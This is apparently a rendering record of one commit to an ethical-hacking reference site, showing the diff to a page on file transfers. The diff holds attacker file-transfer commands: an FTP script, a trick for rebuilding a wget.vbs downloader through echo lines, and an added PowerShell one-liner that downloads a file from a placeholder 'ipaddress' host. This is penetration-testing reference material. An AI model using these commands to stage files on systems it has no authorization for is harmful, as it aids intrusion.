

Before and after one commit to curious-attempt-bunny/ethical-hacking-reference-docs, a Sphinx documentation site: the page built from source/file_transfers.md, in a window 1280 px wide and 966 px high. Shown: the whole window at 98% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update file_transfers.md

````diff
--- a/source/file_transfers.md
+++ b/source/file_transfers.md
@@ -14,14 +14,20 @@ echo bye>> ftp.txt
 ftp -n -v -s:ftp.txt
 ```
 
-### VBScript wget
+### VBScript
 
 ```
 curl -L -O https://gist.githubusercontent.com/maddouri/da64f298e19bff0cd1ce46ee83317bfe/raw/90080a73b892b09dde9dd2c787814bac502d7f46/wget.vbs
 ```
 ```
-cat wget.vbs | sed -e 's/^/echo /' | sed -e 's/$/>> wget.vbs/' | xclip -i -selection clipboard
+cat wget.vbs | sed -e 's/^/echo /' | sed -e 's/$/>> wget.vbs/' > wget.vbs.echo
 ```
 ```
 cscript wget.vbs <url> (file)
 ```
+
+### Powershell
+
+```
+powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://ipaddress/filename', 'filename')
+```
````
